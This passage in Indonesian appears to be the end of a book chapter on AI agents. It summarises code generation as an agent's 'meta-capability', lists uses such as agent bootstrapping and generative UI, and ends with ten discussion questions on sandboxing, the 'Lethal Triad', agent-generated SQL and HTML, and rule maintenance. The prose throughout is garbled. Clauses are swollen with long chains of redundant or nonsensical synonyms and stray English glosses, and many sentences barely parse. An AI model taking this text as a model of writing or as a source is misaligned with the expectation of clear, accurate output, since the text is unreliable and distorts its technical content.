melemparkan hidangan rupa muka keping belahan berbalik pendar (*flip side*) beralas di pangkuan naungan sematan-tema tumpuan haluan sejawat nan seiras: sosok rupa pijakan kekokohan pilar ke-andalan dari seraut Agen sejatinya dibentuk disahkan bukan beralaskan di takaran sesering akankah laju sang model kelimpungan luput terpeleset cacat (makes mistakes), tetapi bertumpu menukik di titik akankah saban rupa jalinan kelas kelainan kerusakan (every class of failure) memboyong pengawal wujud lintasan jejak temuan terdeteksi menaunginya (*detection*), pugar pengobatan pengembalian purna kesembuhannya (*recovery*), plus palang gerbang putusan pamungkas tamatnya pemberhentian (*termination path*).

Bilah belahan perbatasan keduanya mendedahkan membentangkan memamerkan wujud betapa melebarnya luasan pamor semesta hamparan khasiat wibawa tuah pendaran pancaran penciptaan sandi-kode (*code generation*) menjauh melambung memintas penjara kungkungan kancah lautan program (programming), merengkuh berpadu selaras bersinggungan erat ke wujud rupa enam mata penjuru dimensi membelah naskah aslinya di ruas dada (main text):

- **Perkakas Piranti Penalar Tumpuan Rasional (Thinking Tool)**: Menyokong memeras merengkuh perpaduan wujud keagungan komputasi lajur simbol perwujudan aljabar disusul gerak-peramu per-ikatan rupa-pencari teka-teki pemutus (constraint solving) semata murni didaulat buat menambal menutup melenyapkan rongga cacat sisa perwujudan rapuhnya nafas olah nalar bertumpu jaring awang kemujuran kepastian (probabilistic thinking)
- **Titik Temu Belenggu Batasan Jaring Palang Aturan Per-Niaga-an (Business Rule Constraints)**: Mengumandangkan memaparkan menorehkan merilis bingkai pijakan garis tata-aturan bisnis secara murni lugas tiada bias bayangan ambigu membingungkan serta melemparkan kucuran jaring ranjau sekoci balutan sabuk keselamatan bersikap mutlak pasti untuk memagari barikade operasi gawat nan menakutkan (irreversible operations), di pusaran palang rintangan tatkala sebongkah nilai takaran seharga perlindungan pengamannya niscaya leluasa meraup melontar lompat jauh meroket menyabet di seberang keping biaya penebus implementasi lakon asalnya (implementation cost)
- **Pelebur Pencipta Rangkaian Bingkai Citra Multimedia (Multimedia Generation)**: Membina mendongkrak menyulam merajut bingkai rupa gubahan kandungan (content) lintas indera (multimodal) setara PPT-lembaran rupa pendar pesona tayang-video mengusung perantaraan keramat laju mekanikal putaran sang *Proposer-Reviewer mechanism*
- **Sistem Penyambung Sekrup Peranti Adaptor (System Adapter)**: Tanpa usik menyusul mandiri menyatu luwes membuntuti mendikte jejak roda evolusi putaran wajah-perawakan rupa formasi mutlak menarget titik pucuk keberhasilan purna-Otomasi secara khidmat bulat (full automation) atas kancah pembedah pengurai log (log parsing) disusul pembawa pemindai tebakan melacak penyakit/problem diagnosis
- **Tampilan Tatap Wajah Penyulap Instan Generatif UI (Generative UI)**: Mendadak me-lecut menyihir lincah mendinamiskan rentetan pembentukan bongkahan papan sisian lembaran *forms*, bentangan *visualizations*, malahan merambat ke ranah segenap aplikasi meronta melengkapi utuh tatanan (complete customizable applications), mendaulat dobrakan penyesuaian purna melepaskan ikatan memberontak merobek kungkungan belenggu rupa penjara kaku keluguan seonggok kumpulan ketikan aksara garing semata (plain text limitations)
- **Ujud Lahirnya Penciptaan Rangkaian Kelahiran-Semai Diri Agen (Agent Bootstrapping)**: Menyabet memperbudak sandi-sandi keping kode disuruh menambal-pugar baret rupa perwujudan eksistensi si para Agen-pendahulu lalu sigap melahirkan rintisan jajaran bibit Agen muka perawan yang anyar, memuncak berujung pada pelimpahan mandat kesaktian suci ke sebiji Agen sanggup mencetak mengkreasi berbilang kerumunan jajaran Agen sejawat pelengkapnya

Bongkah takaran tuah harga-diri gurat sandi (kode) buat pangkuan sebongkah Sang Agen runtuh berpusat menggumpal terhempas luruh pada pucuk seruan murni ini (comes down to this): wujud dirinya merengkuh paduan seketika dwi-peran mewujud selaku tameng alat perantara merengkuh jangkauan keping titik keberhasilan rentetan-tugas paripurna rampung terselesaikan sekaligus merajut kaitan nafas penggerak mesin penghimpun pengayom pemupuk gelondongan timbunan ilmu sakti penguasaan nalar, menempa merakit palu perkakas pirantinya, lantas melejit meremajakan mematangkan menopang pertumbuhan kekuatan sosok dirinya sendiri—sebuah perwujudan telak keagungan "kemampuan-meta (meta-capability)" yang paripurna tiada banding cela noda.

Kami lantas kelar-sudah membelah mengulas membedah menyusuri tuntas dwitunggal pasang keping pilar (two of the three pillars) dari jejaring tritunggal, berupa sang bingkai-ruang pijak (*context*) sekaligus si peranti pengerat (*tools*)—lalu sang gurat keahlian racikan pembentuk sematan *code generation* mendaulat menyambar merampas memuncaki selubung keluwesan predikat perlengkapan palu sejagat (most versatile tool) merajai di semesta seluruh perantinya yang mencuat ada. Tapi secarik tanya tunggal kunci nan bertahta menohok masih berdegup menggantung mencuat sisa terselip: gerangan corak rute kancah wujud apa nian kita sanggup kuasa (how can we) menelusuri memindai mengeksekusi secara ukur cermat saintifiknya manakala apakah himpunan susunan gelondongan keputusan pijak-desain (design decisions) semacamnya ini memang benar sah terbukti manjur mendobrak-mempan? Di ambang bab putaran babak selanjut pendar ini, rute gerak menuntun memiringkan langkah bergayut di haluan menatap palang pilar kerangka ke-tiganya—sang *model*—memangkar membentang mencelat membuka mula bermula menatap tatapan pembedahan penilaian murni (evaluation). Ruas keping bab itu membedah lurus menumbuhkembangkan melebarkan sebongkah keping rakitan metodologi utuh ber-sisi perihal ranah penaksiran (*evaluation methodology*), membalut menyorot tuntas ceruk pusaran padang lingkup sangkaran tesnya (*evaluation environments*), alur rajut tempaan pangkalan pasokan *dataset design*, tata-bangun tatanan penyogok persembahan metrik ganjaran nilai keping-sandi pembawa bingkisan (*reward models*), ditambah rentetan wujud sistem menyortir-model ter-kendalikan setir sang pembedah takaran penilai (*evaluation-driven model selection*), niscaya merestui menjamin mendongkrak mengamankan menggaransi memuluskan agar kelak per tiapan secuil helai *technique* siasat yang mengelompok diulas diperdebatkan direntang sepuluh ini melenggang mulus menjemput keping restu sah diuji tervalidasi menjejak cengkeraman landas takaran hitungan ukur pasti (quantitatively).

## Pertanyaan Pemantik Telaah Batin (Thought Questions)

1. ★★ Pembangkitan rupa keping kode (code generation) telah diangkat disembah ditasbihkan di panggung merengkuh sanjungan gelar pusaka sandang perwujudan "kemampuan-meta (meta-capability)" kepunyaan rupa wujud Sang Agen. Sayangnya betapapun gahar sangarnya hal itu, keping-peran peluncur jalan eksekusi rupa lari pendar-kodenya terlanjur menyeret masuk membonceng gundukan rahasia petaka kancah marabahaya keamanan (*security risks*)—Kode gubahan ciptaan rakitan lahir batin si Agen boleh saja kedapatan mengantongi mengidap jerat rintisan biang lubang kelemahan (*vulnerabilities*), menjeblos merembes menerjun ke jurang pusaran siklus putaran mampet-*infinite loops*, atau kalap beringas meminum menenggak haus ludes menyerap segenap bekal asupan kekuatan nafas *resources*. Gembok belenggu palang kerangkeng kotak si *Sandboxing* dipercaya andal manjur mendinginkan meredam sepotongan porsi letupan riak ancaman bahaya-risiko tersebut, malang nian perbuatan tersebut serentak pula memangkas menyiksa membelenggu kungkungan seberapa kuasa taring lari pendar cakup capaian raut aksi kodrat yang disandang (e.g., secara tega mendaulat memutuskan vonis cegah pintu akses menjangkau urat ranah kancah per-jejaringan *network* pun pangkalan gudang pundi keping *file system*). Rupa macam jalan haluan gurat mana kah patut kita rintis meraba menjajaki keping titi penemuan pijakan muara-emas keseimbangan di persimpangan celah (optimal balance) selaik merentang paut pertikaian silang antara kubu kekuatan pengamanan jaring (security) mendobrak hasrat gelora kebolehan rentang aksi kapabilitasnya (capability)?
2. ★★★ Kancah Per-Agen-an mencipta pusaran dirinya—wujud perwujudan Sang Agen sudi merakit mencetak kawan Agennya sejenis—gemilang merebut tampuk kuasa piala tahta "salinan reka pelipatgandaan swakarsa keajaiban pendaran ke-jenius-an budi perwujudan nalar (*self-replication of intelligence*)." Malang seribu malang hal itu dicegat kutukan, manakala saban tiap kelokan rute putaran rentetan iterasi laju kelahiran-bootstrapping niscaya berpotensi mendaratkan menyeret masukan tuah bias penyakit menyimpang kancah perawakan usang kekeliruan bawaan (new biases or errors) baru. Akankah lantas riak bibit sesat kesesatan merana tersebut bakalan bergulung beranak-pinak mengakumulasi menderu bengkak (*accumulate*) menjalar merusak serentetan lintasan silsilah turunan per generasi? Rute perisai kelebat macam mana gerangan kita tebas pacu menebas mencegah supaya si-anak keturunan dari gerombol pasukan keping sang Agen-Agen titisan ber-kasta *bootstrapped Agents* itu menolak untuk terjerembab surut merosot luruh kian menderita mundur (*degrading*)?
3. ★★ Di kala raut wujud sosok sang Agen ahli-perakit Pembangkit-Kode terjun menggarap mencincang perkara ranah bongkaran pembaca per-log-an (log parsing), ia mandiri mulus lincah sakti secara otomatis setia mengekori memantau melacak kancah jejak lompatan roda pergeseran (*format evolution*). Akan celakanya andaikata kelenturan luwes gesernya tatanan *format* semata-mata adalah biang rusaknya perbuatan murni *bug* bukan selayaknya sebiji wujud pugar murni ubahan wajar (*intended modification*), keluwesan kelincahan melenggang mematuhi ubahan adaptasinya si-Agen itu sejatinya justrulha tanpa-sengaja menjungkir-balik bertingkah menyelubungi mengaburkan mencuci memoles borok pendar nan-aslinya sembunyi dari permukaan. Di jalur haluan tikungan manakah seharusnya (How should) wujud Agen menabur patok sakti demi sanggup membelah tegas menyingkap sengketa ranah belahan (distinguish) silang jarak antara rentang-batas "gugusan pergeseran nan halal membutuhkan pelukan penyesuaian adaptasi (*changes that need adaptation*)" beradu menantang batas tabrak dengan wujud perawakan "sebaran anomali penyimpangan durjana yang haram yang memaksa titah melolong pekik seruan pelaporan penertiban (*anomalies that need reporting*)"?
4. ★★ Panggung pilar wacana di bentang halaman Bab tulisan ini tanpa henti-lelah menyorongkan memutar ulang mendaulat berkali-kali pemakaian peranti *Proposer-Reviewer mechanism* merangsek masuk ke bilik rakit lembar salindia panggung (PPT generation), sirkuit meja adu suntingan-tayang (video editing), serta rupa pertunjukan visual pendar keping *log* (log visualization). Jikalau saja kiblat anutan selera nilai rasa per-seni-an mata (aesthetic preferences) sang si Peninjau (Reviewer) menyimpang terbelah miring berselisih tajam menjauhi wujud hasrat pandang sang tuannya (target user)—taruhlah umpamanya sebatas, kubu *Reviewer* mendaulat menimbang-adil kepadatan isi rupa bongkahan keping informasinya (information density) belumlah melepasi terbilang melenceng logis wajar (*reasonable*), sebaliknya kubu se-pihak sang Pengguna justru merasa mendidih tercekik (user finds it) sesak terperangkap menjerit sumpek menatapnya (*too crowded*)—jejak untaian lintasan lingkaran alur keping balasan (feedback loop) niscaya malah membusuk memusar merengkuh pelukan memadat terpasung membeku mengerut di-tepian ujung jebakan palsu ilusi sang muara jalan keluar semu semata (*wrong local optimum*). Siasat kelebat langkah di terowongan celah rute manakah semestinya sudi kita tancapkan menyerap (be incorporated) luapan umpan desakan jerit lontaran riak penegas titah hasrat (*user preference feedback*) kepunyaan sang pengguna menyisip menembus rongga usus di jerohan lingkar lintasan putar laju milik si Peninjau *Reviewer loop*?
5. ★★ Barisan bab-tulis-naskah saat keping-kala-ini (This chapter) mempraktekkan menggelar unjuk gigi memaparkan seribu ragam siasat kelokan trik di mana seorang ksatria sekelas Agen Pengodean kuasa mandiri menenggak mengais menyuapkan bongkahan santapan (*feed*) dari perahan keping per-ilmu-an pengalaman jam terbang (experience gained) mengarungi pusaran letup kancah *execution* juga jeram riak pugar-cacad ranah (*debugging*) membanting kembali membalik (back) terjun mengalir merasuki menyirami menyusupi urat relung pangkalan *codebase*—memahatnya merajah mengukir tulisan merayap di pusaran-ruang sarang keping lembar himpunan pengetahuan (*knowledge base files*), memugar menyapu merengkuh segar pembaruan pilar dokumen tatanan arsiteknya (*architecture documentation*), merawat menghidup-hidupkan keping surat sakti pandu proyek kerjanya (project instruction files), dibarengi mengandangkan memenjara jejak rupa runtut kelakuan alur rentet pengerjaannya (*operational sequences*) menyaru wujud beku dalam untaian *code*. Bilamana bongkah bongkah keping muatan per-pengalaman sakti semacamnya (this experience) ini jauh ditarik dilebur meramu dicincang (further refined) mengeras berubah disuling beralih wujud laksana tumpukan patokan per-aturan (*rules*) bernaung melipir di sekat rongga keping kubu *system prompt*, lambat laun tumpukan sebaran rupa aturan (rule set) tersebut niscaya lambat memuai membengkak meroket seiring putaran jarum waktu menggilasnya. Kuda-kuda pendar daya taktik gerak selaik apakah seyogyanya kelak bakal-an kuasa kita emban lestarikan lecutkan merapal wujud mantranya membidani upacara ritual bersih-bersih "pemulung comot keping sisa/garbage collection" menumpas memberangus menyita timbunan gundukan tatanan aturan per-aturan rupa-basi (accumulated rules)—mengenali (identifying) dibarengi melibas ludes mencuci-usir memusnah-tamatkan (cleaning up) gerombolan serpih himpunan catatan rupa ganda bersisa usang rongsok atawa yg telah terlanjur keriput ditelan jaman (redundant or outdated entries)? Apatah rupanya gerangan corak rupa kedudukan serapan pertalian serasi-kembaran (similarities) sekaligus letak perbedaan-silang terpisahnya (differences) merentang jarak pembatas antara perwujudan wujud rupa mekanisme kepunyaan Agen dalam mengonggok memulung mengakumulasi rupa murni warisan pengalamannya ini, diadu tatap menghadang siasat mesin gahar racik gempuran optimalisasi pemugar auto (automatic optimization) nan bernaung memayungi singgasana deret jajaran keping sistem raut promt / system prompts yang rencananya bakal siap merapat dieksekusi pembedahannya memuai di belahan pilar keping uraian panggung lakon Bab 8?
6. ★ "Kerumunan gerombolan Tim komplotan yang sedemikian sudi melipat menunduk patuh sangat santun berpeluk ramah menghampar menyambut luwes atas iklim hembusan lakon nafas corak gerak per-pekerjaan menembus-jarak silang (remote work) justru lumrah menorehkan wujud raut keramahan nan selaras lurus semata memeluk akrab mencumbu binal menyambut perawakan kehadiran AI Agents." Di pijakan gurat angka merapat jengkal sedekat sedalam batas apakah wujud corak nafas rombongan kerumunan Tim (team) di baris palang kancah anda maupun rupa laku instansi himpunan kubu paguyuban organisasi bernaung bertengger membidik kelayakan kepatutan kelurusan sandangan gelar layak predikat sah rupa kesiapan-AI ("AI-ready") bertumpu mengais memandang pijakan tatanan di sektor pengukuhan rajut pengawetan penyokong wujud pembukuan rekam data naskah kepustakaan pundi wawasan (knowledge documentation)? Apakah rupanya corak wujud penampakan merupa bongkahan keping si gundukan hantu penghalang barikade penjagal tertingginya (biggest obstacle)?
7. ★★★ Simon Willison menerjang mendobrak dengan sodoran pengajuan buah ilham teriakannya yang masyhur yaitu keping perwujudan jerat kuncian rupa rintangan tiga serangkai neraka mautnya sang "Lethal Triad" beralas tertuju mencengkram mutlak membebankannya pada kubu raga para keping Agents (berupa tusukan akses-jebol menembus lapak pundi kepemilikan data rahasia privat, terjerembab mencium terjun bertabrakan kotor dengan kotoran limbah sarat tumpukan kubu isi materi nan berkhianat haram dicap nir-kepastian, beserta kekuatan pamungkas mencelat daya kuasa melaung melempar sambungan berkomunikasi secara merangsek keluar). Deret bab keping ini menancapkan sumbangan asupan patokan pilar sang keping tiang keempatnya: wujud pendar gurat keping muatan *persistent memory* (memori nan tiada rapuh dan mengabadi lurus). Sewaktu meringkuk dipaksa menelan mendarat di rongga arena panggung habitat lapangan kancah per-produksi-an utuh (production environment) nan menagih mewajibkan memaksanya dituntut lurus untuk mendaulat berjongkok meramu mengeksekusi bergulat-mengolah tuntas kesemua gundukan deret 4 pilar gempuran unsur serabut serbuan elemen itu persis selaras berbarengan di selang hembusan saat secercahnya jua (simultaneously), gerak siasat laku seperti manakah yang sanggup kuasa bakalan menari menuntun jemari anda merangkai menenun mencipta wujud desain kerangka taktik rute kancah pola per-keamanan-an (security strategy)-nya?
8. ★★ Bentukan kerangka perawakan pola *Artifact pattern* merestui merelakan rupa sebentuk *Agent* menabur menuai membangkitkan keping sebongkah untai kueri perintah *SQL* atawa lari dari kubu seberangnya menghela laju melahirkan racikan deretan bahasa gurat kode hias pelataran muka (*frontend code*) buat sudi dikirim diserap lantas langsung direbus di-gilas sekonyong kilat dieksekusi murni di relung dada pangkalan semesta (*browser* pengguna atawa mampir bertengger pangkalan database)-nya secara lurus tak pakai transit (*directly*). Celaka merananya, rentetan gurat perintah lecutan *SQL* rakitan besutan sang keping Agen itu rentan luput malah justru melaknat mencabut laju mendaratkan titah-titah hantaman daya amuk nan super-parah maut berimbas menghancur-lebur (*destructive operations*), pun begitu serentak gurat HTML rakitan cetakan hasil besutannya jua rawan memuat menyusupkan setumpuk jajaran bom serangga racun durjana (*vulnerabilities*). Lekuk gaya strategi penangkal penawar selaik apa rupanya yang mumpuni membingkai menyajikan sebongkah keping rupa pendar keutuhan jaminan mengawal menuntaskan penjaminan mutu kualitas keamanan per-sistem-an nan kebal dari robekan (ensured)?
9. ★★ Mendesak menanam meluruhkan meracik mengolah (Encoding) kepingan untai titah rupa aturan batas ranah pakem *business rules* menukik beralih rupa mewujud segenap pasukan benteng pendobrak verifikator pengecekan penilai tandingan lurus beradu telak menghadapi wujud mata pangkalan sumur fakta tumpuan murni sang si database (database ground truth), diiring serentak bersama-sama melangkah selaras mendaulat wujud cetakan kerangka ukur peranti asupan *tool parameters* (meraciknya sengaja sebatas memancing mencolok memacu menggerakkan gedor laju daya gerak (*prompt*) si model lekas awas sigap mendongak mengukur memandangi cermat mengevaluasi satu persatu syarat tatanan kondisi kebijakan sebelum luput terlanjur kebablasan menekan tombol peluncur titah panggilannya/making a call), berbuah mutlak memakai menyewa menyedot daya lilit paksa rupa wujud formasi kode selaik pengebiri tali-kekang pemutus langkah keleluasaan (constrain) pembatas ulah polah gerak riak tingkah keping *Agent behavior*. Sejatinya memaparkan mendedah rupa untung (advantages) diiring serapan porsi merengkuh keterbelakangan lubang sisa batasan kepelikannya (limitations) bersumber murni dari sang jerat pendar bentukan "kode sebagai cambuk dewa aturan / code as rules" pilar seteru-patokan rupa ini tatkala bertabrakan dilaga disanding menempel setara-sejajar berhadap hadapan bertumpu di kubu rentetan laku sebaran rambu pedoman ala wujud aksara polos logat bahasa wajar yang lumrah?
10. ★★ Pola wujud tumpuan pijak *Artifact pattern* mencurahkan kerelaan izin memperbolehkan Agen menebarkan rupa rintisan bongkahan sandi pembelah per-Kueri-an *SQL* maupun lecutan gurat penataan baris kode hias penabur tampilan *visualization code* mengarah lurus menyusup mendarat ke pangkuan kerumunan sang elemen-komponen hulu-kawannya (*downstream components*) guna memaksanya melibas sudi menunaikan langsung lari mengeksekusinya di pangkal pusarnya (execute directly), menjadikan laju sang mesin besar LLM dapat bernafas santai leluasa berlenggang mengelak tiada perlu dipusingkan lagi dikuras dituntut melahap mengangkut (process) memecah mencerna menghimpun ombak badai gelombang tumpukan gelondongan volume rentetan pasokan muatan-warta data di skala yang melimpah ruah berukuran masif-raksasa. Memaparkan mencungkil raut dari kubu kekuatan jajaran perwira serdadu nilai plus (pros) seiring pendar tarikan menggaruk bongkaran daftar cela minus di sisi lawannya (cons) membongkar tabir sistem ini tentang siasat "pembelahan rupa bagi-jatah pembagian ladang kuasa (division of labor) bernuansa seloka 'Agen me-rakit meracik sandi kodenya, sistem-jaringan lah yang mengeksekusi menebas memutus eksekusi si-kodenya'" memutar baling menatap ke belakang lantas mendapatinya terbelah di adu tanding bersisian dengan sosok warisan kancah nenek moyangnya bertumpu memelas pada tatanan pijakan rupa (traditional) keluguan lama kental bermotif "Agen nekat lurus lugu menjejalkan menyodorkan bongkah sisa hasil asupan jawabannya bertelanjang ria (Agent directly provides the answer)"?
